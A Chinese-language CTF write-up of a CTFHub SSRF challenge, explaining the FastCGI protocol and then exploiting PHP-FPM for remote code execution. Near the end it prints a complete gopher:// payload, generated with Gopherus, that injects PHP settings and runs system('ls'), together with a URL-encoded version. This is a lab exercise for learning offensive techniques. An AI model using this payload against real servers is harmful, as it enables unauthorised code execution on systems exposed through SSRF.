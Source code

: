 ### SSRF FastCGI 协议 RCE

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687f45ee58cb8da5c8cb212f.png)

**1️⃣ FastCGI 简介**

FastCGI 是一种通用网关接口（CGI）的改进版本，旨在解决传统 CGI 存在的性能问题

传统  CGI  每次请求都会创建一个新的进程，处理完请求后销毁，极大浪费系统资源

而 FastCGI 通过长连接与进程复用机制，显著提高了性能

FastCGI 通常用于：

- Web 服务器（如 Nginx、Apache）与后端应用（如 PHP-FPM）之间的通信
- 保持后端服务进程常驻，提高高并发下的性能

**2️⃣ FastCGI 架构概览**

通信双方：

- Web 服务器：客户端请求入口，如 Nginx
- FastCGI 应用程序：通常是 PHP-FPM 或其他应用服务器

工作流程：

```css
[客户端浏览器] 
     ↓
[Web 服务器 (如 Nginx)]  ——TCP/Unix Socket——>  [FastCGI 后端 (如 PHP-FPM)]
```

- Web 服务器把请求封装成 FastCGI 协议格式，通过 Socket 发给 FastCGI 进程
- FastCGI 进程解析请求，执行后端逻辑，返回响应数据
- Web 服务器再将结果返还给客户端

**3️⃣ FastCGI 协议结构**

数据传输的基本单位：Record（记录）

每个 Record 有固定头部格式和可变长度的数据部分。

Record Header（8 字节）结构：

| 字段          | 大小（字节） | 说明                     |
| ------------- | ------------ | ------------------------ |
| Version       | 1            | FastCGI 版本，通常是 `1` |
| Type          | 1            | 记录类型（见下表）       |
| RequestId     | 2            | 请求 ID（用于多路复用）  |
| ContentLength | 2            | 内容长度                 |
| PaddingLength | 1            | 填充字节长度（用于对齐） |
| Reserved      | 1            | 保留，通常为 `0`         |

常见 Type 类型：

| 类型名             | 值   | 说明                         |
| ------------------ | ---- | ---------------------------- |
| FCGI_BEGIN_REQUEST | 1    | 表示开始一个请求             |
| FCGI_ABORT_REQUEST | 2    | 表示中断请求                 |
| FCGI_END_REQUEST   | 3    | 表示请求结束                 |
| FCGI_PARAMS        | 4    | 发送请求的环境变量           |
| FCGI_STDIN         | 5    | 发送请求主体（如 POST 数据） |
| FCGI_STDOUT        | 6    | 标准输出（返回内容）         |
| FCGI_STDERR        | 7    | 标准错误（返回错误信息）     |
| FCGI_DATA          | 8    | 补充数据（很少用）           |

**4️⃣ 通信过程详细步骤**

一次 HTTP 请求通常包含以下 FastCGI Record：

```sh
① FCGI_BEGIN_REQUEST        # 开始请求
② FCGI_PARAMS (多次)         # 环境变量（如 PATH_INFO、QUERY_STRING 等）
③ FCGI_PARAMS (空)           # 空表示结束
④ FCGI_STDIN (可能多次)      # 请求体，如 POST 数据
⑤ FCGI_STDIN (空)            # 空表示结束
----------------------------
⑥ FCGI_STDOUT (返回内容)
⑦ FCGI_STDERR (错误信息)
⑧ FCGI_END_REQUEST           # 通知请求结束
```

**5️⃣ 请求示例（伪过程）**

```http
客户端发起 HTTP 请求：GET /index.php?id=1

Nginx 生成 FastCGI 请求：
1️⃣ 发送 BEGIN_REQUEST
2️⃣ 发送 PARAMS（SCRIPT_FILENAME, QUERY_STRING 等）
3️⃣ 发送空 PARAMS
4️⃣ （GET 没有 STDIN）
5️⃣ 等待 FastCGI 返回数据
```

FastCGI 返回：

- STDOUT: 输出 HTML 内容
- STDERR: 错误日志（如果有）
- END_REQUEST: 请求结束

**6️⃣ PHP-FPM 简介**

PHP-FPM 是专门为 **PHP 提供更高效、更稳定的进程管理机制的 FastCGI 实现**，常用于配合 Nginx 部署 PHP 网站

```
浏览器请求 --> Nginx --> PHP-FPM --> PHP 脚本执行 --> 返回结果
```

**7️⃣攻击原理**

```lua
+----------------------+
|   攻击者发起请求     |
+----------------------+
            |
            v
+----------------------------------+
| PHP-FPM 端口 9000 是否暴露公网？    |
+----------------------------------+
      |                      |
      | 是                   | 否
      v                      v
+------------------+   +-------------------+
|  直接构造 FastCGI|   |  SSRF 访问 127.0.0.1|
|   数据包攻击FPM  |   |   请求 FastCGI 端口  |
+------------------+   +-------------------+
      |                      |
      +----------+-----------+
                 v
       +----------------------------+
       |   SCRIPT_FILENAME 参数控制  |
       +----------------------------+
                 |
     +-----------------------------+
     |  文件后缀是否受限制？        |
     +-----------------------------+
         |                    |
         | 老版本，不受限       | 新版本，仅限 .php
         v                    v
+----------------+     +---------------------+
| 任意文件可利用 |     | 只能利用已有 .php 文件 |
+----------------+     +---------------------+
         |                    |
         v                    v
+--------------------+  +----------------------+
| 可读取 /etc/passwd |  | 执行指定 PHP 脚本，      |
| 或其他任意文件     |  | 达成远程代码执行       |
+--------------------+  +----------------------+
```

本文要利用一个脚本 [gopherus.py](https://github.com/tarunkant/Gopherus/tree/master)，这个脚本可以对 SSRF 漏洞进行利用，可以直接生成 payload 造成远程代码执行 RCE

```sh
┌──(kali㉿kali)-[~/Gopherus]
└─$ python2 gopherus.py -h                                                             
usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```

我们选择 fastcgi 的

```sh
python2 gopherus.py --exploit fastcgi
```

![](https://pic1.imgdb.cn/item/687f54a658cb8da5c8cb5640.png)

然后输入 `/var/www/index.php`，运行一下 ls

![](https://pic1.imgdb.cn/item/687f55a658cb8da5c8cb579a.png)

得到 payload

![](https://pic1.imgdb.cn/item/687f55c758cb8da5c8cb57bf.png)

```http
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27ls%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

再做一次 URL 编码（因为走的是 `?url`）

```http
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527ls%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

可以看到有个 `index.php`

![](https://pic1.imgdb.cn/item/687f5ca658cb8da5c8cb5fee.png)

重新跑一下脚本拿 flag

![](https://pic1.imgdb.cn/item/687f5d1e58cb8da5c8cb6017.png)

成功拿到 flag

![](https://pic1.imgdb.cn/item/687f5e2858cb8da5c8cb609a.png)